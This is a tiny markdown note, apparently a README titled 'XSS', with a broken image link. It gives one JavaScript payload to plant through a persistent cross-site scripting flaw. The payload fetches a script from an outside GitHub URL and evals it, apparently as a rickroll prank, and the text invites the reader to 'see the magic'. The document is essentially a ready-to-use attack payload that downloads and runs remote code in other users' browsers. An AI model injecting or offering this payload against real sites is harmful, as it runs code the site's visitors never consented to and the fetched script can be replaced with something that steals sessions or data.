 # XSS

Put `eval(await (await fetch("https://raw.githubusercontent.com/luxterful/nevergonnagiveyouup/master/script.js")).text())` into persistant XSS and see the magic
